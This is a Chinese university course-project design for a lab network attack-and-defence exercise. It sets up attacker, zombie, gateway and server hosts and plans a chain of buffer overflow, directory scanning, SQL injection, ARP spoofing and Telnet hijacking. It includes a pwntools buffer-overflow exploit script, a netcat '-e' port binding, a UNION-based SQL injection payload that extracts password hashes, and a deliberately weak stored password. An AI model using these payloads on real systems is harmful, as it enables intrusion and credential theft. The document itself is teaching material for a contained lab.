 # 企业级网络的安全利用和漏洞

**ddl**：6.5日晚 20:00

### 设计要求

+ 设计一个企业级的网络拓扑： 
  + 网络中最少包含3台主机，分别为不同实体，如：攻击者、网关以及服务器 
  + 鼓励在网络拓扑中加入更多的主机，但要求网络中的每台主机均需对攻击或防 御有贡献
+ 在企业级网络内部署相应的服务，设计可以被（攻击者）利用的安全漏洞
+ 从攻击者的角度，利用网络中的安全漏洞，最少实现3类攻击 
  + 设计的攻击之间应具有关联性，由其构成的攻击链最终应为一个攻击目的服务 
  +  实现的攻击类型应为密码破解攻击、中间人攻击、缓冲区溢出攻击、网络扫描、 网络嗅探与欺骗攻击、Web漏洞利用中的几种 
  + 实现攻击的工具应为课程实验中学习的相关开源工具
+ 从网络管理者的角度，针对上述安全漏洞，设计并实施相应的防御措施

### 设计内容

#### 网络拓扑

<img src="大作业设计/image-20220530210324008.png" alt="image-20220530210324008" style="zoom:33%;" />



#### 环境配置

##### 网络配置

Attacker NAT网络 10.0.2.9

Zombie NAT网络  10.0.2.8

gateway NAT网络 内部网络 10.0.2.7 192.168.55.1

Server 内部网络 192.168.55.101

##### 其他

Server中使用Lab10的sql-injection.com

修改SQLi.sql，添加以下语句(这个符号`也太鬼畜了)

```sql
DROP TABLE IF EXISTS `USER`;
CREATE TABLE `USER` (
	`ID` int(6) unsigned NOT NULL AUTO_INCREMENT,
	`Name` varchar(30) NOT NULL,
	`Password` varchar(300) NOT NULL,
	PRIMARY KEY (`ID`)
);

INSERT INTO `USER` VALUES (1,'admin','5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'); # password的SHA1值
```

导入数据库

```sh
sudo mysql -u root
mysql> use elgg;
mysql> source SQLi.sql;
mysql> exit
```

启动APACHE服务

```
sudo service apache2 restart
```

Gateway中含有本次实验所要获取到文件资源(flag)

通过设置iptable和ipv4.forward使得外网主机能访问内网服务器

![image-20220531101000364](大作业设计/image-20220531101000364.png)

iptable配置

```
sudo iptables -t nat -A PREROUTING -p tcp -d 10.0.2.7 --dport 80 -j DNAT --to-destination 192.168.55.101:80
```

Zombie主机修改/etc/hosts文件

```
[gateway_address]	www.sql-injection.com
```

访问http://www.sql-injection.com/unsafe

![image-20220531114902849](大作业设计/image-20220531114902849.png)

Zombie主机安装dirsearch

```sh
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u <URL> -e <EXTENSION>
```

使用方法

```
python3 dirsearch.py -u www.sql-injection.com/unsafe
```

Zombie主机启动网络后门

```sh
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

**部署缓冲区溢出攻击**

设置nc

```
sudo apt-get install netcat-traditional
sudo update-alternatives --config nc
```

将exploit部署到12345端口

```
nc -l -p 12345 -e exploit
```

attacker运行exp.py

```python
from pwn import *
p=remote('10.0.2.8',12345)
#p=process('.')

payload=b'\x00'*(0x88)+p64(0x400596)

p.send(payload)

p.interactive()
# 需安装pwntools pip3 install pwntools
```



#### 漏洞设计

1. SQLi漏洞
2. 弱口令
3. telnet会话劫持
3. 缓冲区溢出攻击

#### 攻击过程

1. 攻击者通过缓冲区溢出攻击获取Zombie主机控制权
2. Zombie对Web网站进行dirsearch扫描
3. 攻击者控制僵尸主机访问Web网站，实行SQLi攻击，获取数据库中口令文件内容
4. 攻击者利用僵尸主机ssh登录服务器，在服务器上进行nmap网络扫描
5. 攻击者利用僵尸主机在Server上进行arp欺骗，实现Telnet会话劫持，读取gateway文件

#### 攻击步骤







##### SQLi

```sql
alic' union select 0,Name,Password,0,0,0,0,0,0,0,0 from USER #
```

